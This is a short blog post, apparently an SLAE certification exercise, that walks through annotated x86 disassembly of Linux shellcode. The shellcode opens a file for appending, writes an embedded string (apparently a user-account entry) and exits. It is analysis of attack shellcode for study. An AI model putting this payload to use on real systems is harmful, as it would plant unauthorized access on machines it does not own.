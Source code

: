 ```nasm
mov    ch,0x4			; O_WRONLY|O_APPEND
int    0x80			; execute open
xchg   ebx,eax			; store open file in ebx
call   0x402091 <code+81>	; call address 0x402091 which will push the string to the stack
popa   				; start of string to be written to file
bound  esi,QWORD PTR [ebx+0x6f]
ins    BYTE PTR es:[edi],dx
outs   dx,DWORD PTR ds:[esi]
ins    DWORD PTR es:[edi],dx
bound  edi,QWORD PTR [edx]
inc    ecx
jp     0x4020aa
addr16 cs jp 0x4020dd
jno    0x4020b6
arpl   WORD PTR [edx+0x37],si
arpl   WORD PTR [edx],di
xor    BYTE PTR [edx],bh
xor    BYTE PTR [edx],bh
cmp    ch,BYTE PTR [edi]
cmp    ch,BYTE PTR [edi]
bound  ebp,QWORD PTR [ecx+0x6e]
das    
jae    0x4020f8
or     bl,BYTE PTR [ecx-0x75]	; end of string to be written
push   ecx		     	; not really a push here, pop ecx starts shortly before followed by a mov
cld			        ; not really a cld here
push   0x4		     	; write() 
pop    eax			; 
int    0x80			; execute write()
push   0x1			; exit()
pop    eax			;
int    0x80			; execute exit()
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>
